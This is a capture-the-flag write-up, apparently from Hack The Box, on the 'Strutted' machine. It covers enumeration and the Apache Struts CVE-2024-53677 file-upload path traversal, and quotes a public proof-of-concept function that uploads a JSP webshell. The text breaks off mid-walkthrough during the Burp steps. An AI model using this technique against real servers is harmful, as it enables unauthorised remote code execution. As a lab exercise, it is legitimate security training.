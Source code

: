 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: apachestruts struts interceptor fileuploadinterceptor abusingfileupload webshell sudoers
---
```


<br />

![1](../../../assets/images/Strutted/1.png)

<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />



<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.59 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 15:14 CET
Nmap scan report for 10.10.11.59
Host is up (0.044s latency).
Not shown: 64946 closed tcp ports (reset), 587 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.75 seconds
```

<br />

Open Ports:

`Port 22` -> ssh

`Port 80` -> http 

<br />

# Http Enumeration: -> Port 80

<br />

When we are going to list the `website` it redirects to -> `strutted.htb`, so we proceed to add it to the `/etc/hosts`:

<br />

```bash
echo "10.10.11.59 strutted.htb" >> /etc/hosts
```

<br />

Once done, we list the `website` again:

<br />

![2](../../../assets/images/Strutted/2.png)

<br />

Before anything, at the `bottom` of the page it says that we can `download` the `structure` of the `application` in a `.zip` file. So we go to `"Download"` at the `top right` and we do it.

<br />

![5](../../../assets/images/Strutted/5.png)

<br />

As we can see, it seems to be an `utility` to `upload` images, let's `test` uploading one:

<br />

![3](../../../assets/images/Strutted/3.png)

<br />

## Apache Struts: 

<br />

The image has been `uploaded` withouth troubles and if we `inspect` the `source code` of the `"Copy Shareable Link"` button, we can find the `path` in where it is `stored`:

<br />

![6](../../../assets/images/Strutted/6.png)

<br />

But that's not the `key` point, `crucial` part is that when we `upload` an `image`, the page `redirects` to an `endpoint` called `"upload.action"`:

<br />

-> `http://strutted.htb/upload.action`

<br />

And as we `well` know, the presence of `.action` scripts `means` that `Apache Struts` is behind the `application`.

<br />

![4](../../../assets/images/Strutted/4.png)

<br />

If we `remember`, we have `access` to the `source code`, so we can take a `look` and try to `find` the Apache Struts `version` in `use`.

After a time `looking` for this, we find the version `6.3.0.1` in the `"pom.xml"` file:

<br />

```xml
<properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>17</maven.compiler.source>
    <maven.compiler.target>17</maven.compiler.target>
    <struts2.version>6.3.0.1</struts2.version>
    <jetty-plugin.version>9.4.46.v20220331</jetty-plugin.version>
    <maven.javadoc.skip>true</maven.javadoc.skip>
    <jackson.version>2.14.1</jackson.version>
    <jackson-data-bind.version>2.14.1</jackson-data-bind.version>
</properties>
```

<br />

Once we know that, we search `vulnerabilities` for this `version` and there is a very recent one, the `CVE-2024-53677`.

<br />

## Apache Struts File Upload Vulnerability:

<br />

The CVE `consists` in a `file upload` vulnerability that allows an `attacker` to upload a malicious `.jsp` file as a `webshell` and consequently, achieve a `RCE` on the victim system. 

This [post](https://www.dynatrace.com/news/blog/tracing-apache-struts-cve-2024-53677/) explains very well the `vulnerability`. It says that `Apache Struts` has a number of  `interceptors` classes by default, including one called `"FileUploadInterceptor"`.

The `FileUploadInterceptor` class is the `key` to the `exploitation` because it allows us to `manipulate` the `file's` storage location on the server `before` it is `processed`. 

This happens because `FileUploadInterceptor` does not properly sanitize file `paths` when handling uploads. By `manipulating` the request parameters, we can perform a `path traversal` attack to store files `outside` the intended `directory`. If we upload a `.jsp` file to a web-accessible location, we can achieve `RCE` when the server processes it.

<br />

### Manual Exploitation:

<br />

Now are going to exploit the vuln `manually` step by step using the following [POC](https://github.com/EQSTLab/CVE-2024-53677) in where we can `found` the parameters that we need to `set`:

<br />

```python
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
```

<br />

1.- First, we open `Burp Suite` and `intercept` a random image `upload` request `removing` the `unnecessary` data from the image:

<br />

![7](../../../assets/images/Strutted/7.png)

<br />

2.- Now, we change `"upload"` to `"Upload"`, to activate the interceptor and be able to `intercept` the file `before` it is uploaded and we add a java oneliner to the data:

<br />

![8](../../../assets/images/Strutted/8.png)

<br />
